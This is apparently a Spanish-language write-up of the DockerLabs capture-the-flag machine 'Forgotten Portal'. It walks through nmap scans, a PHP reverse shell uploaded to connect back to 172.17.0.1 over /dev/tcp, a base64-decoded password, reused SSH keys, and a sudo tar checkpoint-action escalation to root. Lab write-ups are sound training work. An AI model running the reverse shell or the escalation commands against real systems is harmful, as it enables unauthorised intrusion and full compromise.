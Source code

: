 #MAQUINA #DOCKERLABS #MEDIO 
#ABUSO_SUBIDA_ARCHIVOS 
<hr>

# RECONOCIMIENTO

Vamos a resolver **Forgotten Portal** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS -vvv -p- --min-rate 5000 -n -Pn 172.17.0.2
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-18 16:04 CET
Initiating ARP Ping Scan at 16:04
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 16:04, 0.05s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 16:04
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
Completed SYN Stealth Scan at 16:04, 0.50s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2025-03-18 16:04:42 CET for 0s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.75 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)



```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** y el puerto **22(SSH)** biertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p22,80 172.17.0.2                       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-18 16:04 CET
Nmap scan report for rubikcube.dl (172.17.0.2)
Host is up (0.000017s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 1d:4a:16:27:ad:b8:0b:aa:28:64:b0:10:3b:be:79:1c (ECDSA)
|_  256 0b:0f:11:d6:5a:e9:f5:25:c8:17:0d:71:c1:29:c9:53 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: CyberLand Labs - Innovaci\xC3\xB3n en Ciberseguridad
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.46 seconds



```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-18 16:05 CET
Nmap scan report for rubikcube.dl (172.17.0.2)
Host is up (0.0000040s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
| http-enum: 
|_  /uploads/: Potentially interesting directory w/ listing on 'apache/2.4.58 (ubuntu)'
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.44 seconds
                                                            


```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

**Conclusiones:** Tenemos un directorio **uploads**.

## HTTP (80)

Al hacer CTRL + U :
```bash
        <!-- Nota: Bob ha implementado una nueva funcionalidad en m4ch1n3_upload.html. Ahora permite analizar metadatos de los archivos subidos.
         Esto mejora la capacidad de gestionar información crítica y detectar posibles anomalías en los datos. -->
```
# EXPLOTACION

Subimos una reverse shell y nos ponemos en escucha por el puerto 443 :

```bash
<?php

/**
* Plugin Name: test-plugin
* Plugin URI: https://www.your-site.com/
* Description: Test.
* Version: 0.1
* Author: your-name
* Author URI: https://www.your-site.com/
**/


	exec("/bin/bash -c 'bash -i > /dev/tcp/172.17.0.1/443 0>&1'");

?>
```

YA ESTAMOS COMO WWW-DATA.

# ESCALADA PRIVILEGIOS

Tras un rato, no veo nada interesante. Pero en el `/var/www/html` vemos un acess_log :

```bash
www-data@76aacb8b6099:/var/www/html$ cat access_log 
# --- Access Log ---
# Fecha: 2023-11-22
# Descripción: Registro de actividad inusual detectada en el sistema.
# Este archivo contiene eventos recientes capturados por el servidor web.

[2023-11-21 18:42:01] INFO: Usuario 'www-data' accedió a /var/www/html/.
[2023-11-21 18:43:45] WARNING: Intento de acceso no autorizado detectado en /var/www/html/admin/.
[2023-11-21 19:01:12] INFO: Script 'backup.sh' ejecutado por el sistema.
[2023-11-21 19:15:34] ERROR: No se pudo cargar el archivo config.php. Verifique las configuraciones.

# --- Logs del sistema ---
[2023-11-21 19:20:00] INFO: Sincronización completada con el servidor principal.
[2023-11-21 19:35:10] INFO: Archivo temporal creado: /tmp/tmp1234.
[2023-11-21 19:36:22] INFO: Clave codificada generada: YWxpY2U6czNjcjN0cEBzc3cwcmReNDg3
[2023-11-21 19:50:00] INFO: Actividad normal en el servidor. No se detectaron anomalías.
[2023-11-22 06:12:45] WARNING: Acceso sospechoso detectado desde IP 192.168.1.100.

# --- Fin del Log ---
www-data@76aacb8b6099:/var/www/html$ echo "YWxpY2U6czNjcjN0cEBzc3cwcmReNDg3" | base64 -d
alice:s3cr3tp@ssw0rd^487
```

YA ESTAMOS COMO ALICE.

Vemos en `/home/alice/incidentes,` un reporte , que nos dice que todos los usuarios tienen la misma clave ssh y que la passphrase de bob es  :

```bash
cyb3r_s3curity
```

YA ESTAMOS COMO BOB.

Vamos a ver si tenemos permisos SUDO:

```bash
bob@76aacb8b6099:~$ sudo -l
Matching Defaults entries for bob on 76aacb8b6099:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User bob may run the following commands on 76aacb8b6099:
    (ALL) NOPASSWD: /bin/tar

```

Vemos tar con permisos SUDO :
```bash
bob@76aacb8b6099:~$ 

    sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

tar: Removing leading `/' from member names
# whoami
root
# 

```

**YA ESTAMOS COMO ROOT.**

